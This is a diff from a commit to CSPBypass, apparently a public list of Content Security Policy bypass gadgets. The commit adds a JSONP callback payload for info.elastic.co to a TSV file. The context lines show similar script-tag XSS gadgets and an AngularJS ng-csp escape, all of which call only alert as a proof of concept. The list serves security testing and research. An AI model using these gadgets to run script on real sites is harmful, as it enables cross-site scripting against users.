

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added info.elastic.co

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -64,2 +64,3 @@ gum.criteo.com	<script src="https://gum.criteo.com/sync?c=123&r=2&a=1&j=alert"><
 ib.adnxs.com	<script src="https://ib.adnxs.com/async_usersync?cbfn=alert(1)-"></script>
+info.elastic.co	<script src="https://info.elastic.co/index.php/form/getForm?munchkinId=813-MAM-392&form=6196&callback=alert"></script>
 inno.blob.core.windows.net	<body ng-app ng-csp><script src="//inno.blob.core.windows.net/new/libs/AngularJS/1.2.1/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
```
